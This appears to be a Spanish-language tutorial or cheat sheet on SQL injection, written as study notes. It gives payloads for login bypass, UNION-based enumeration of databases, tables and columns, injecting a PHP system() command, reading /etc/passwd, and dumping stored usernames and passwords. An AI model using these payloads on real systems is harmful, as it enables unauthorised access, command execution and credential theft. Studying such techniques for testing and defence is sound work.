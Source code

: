 ### Autenticación débil basada en SQL:
- Formulario de inicio de sesión (username - passwd) donde la inyección intenta **eludir la autenticación.**
```sql
SELECT * FROM users WHERE username='' AND passwd=''
1. username='admin' or 1=1-- - AND passwd='admin'
2. username='admin' or 1=1#
3. user='admin' -- || user='admin'-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
#### Determina el número de columnas devueltas por la consulta
- Aprovechando el manejo de error en la respuesta para saber el total de columnas.
```sql
SELECT password,email FROM users WHERE username='pepe'' order by 2-- -
1. username order by 2-- -
2. username order by 3-- -//Devuelve error ya que al comienzo solo se seleccionan 2
```
<p align="center">
  <img src="https://i.postimg.cc/Z5MNWdqw/sql-ejemplo-error-ORDER-BY.png" alt="sql"/>
</p>
**Error ORDER BY**
<p align="center">
  <img src="https://i.postimg.cc/pL3FQXxF/ERROR-sql.png" alt="sql"/>
</p>

- Combinar del 1 hasta el total de columnas de la tabla con UNION SELECT
```sql
SELECT password,email FROM users WHERE username='pepe' union select 1,2-- -
SELECT password,email FROM users WHERE username='pepe' union select NULL,NULL-- -
//Este último va en la URL
```
+ Mostrar una posible inyección de código PHP
```sql
SELECT password,email FROM users WHERE id=1 UNION SELECT "<?php system('whoami'); ?>",user();-- -;
```
<p align="center">
  <img src="https://i.postimg.cc/Z5KPBmx5/sql-inyeccion-code-y-dbuser.png" alt="sql"/>
</p>
- Mas ejemplos con el uso de UNION SELECT '',''-- -
<p align="center">
  <img src="https://i.postimg.cc/6qxB0qpy/mas-ejemplos-con-UNION.png" alt="sql"/>
</p>
+ Utilizando una inyección de código hacia un directorio como **/etc/hosts** o **/etc/passwd**
<p align="center">
  <img src="https://i.postimg.cc/1X0nT1WV/load-file-sql.png" alt="sql"/>
</p>
---

+ **Recupera las bases de datos disponibles en el servidor - LISTAR DBS**
```sql
//Ejemplo por consola
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,group_concat(schema_name) FROM information_schema.schemata-- -
```
```SQL
//Esto va en la URL
' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -
```
- **Recupero "todas" las tablas creadas en cada base de datos. - LISTAR TABLAS**

```SQL
//Esto va en la URL
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```
-  LISTAR COLUMNA
<p align="center">
  <img src="https://i.postimg.cc/7ZT8y18D/tabla-y-dbs.png" alt="sql"/>
</p>

```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -
```
information_schema.tables > Muestra todas las tablas

- Leer todos los nombres de usuario y contraseña de una tabla
```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,password FROM users-- -
```
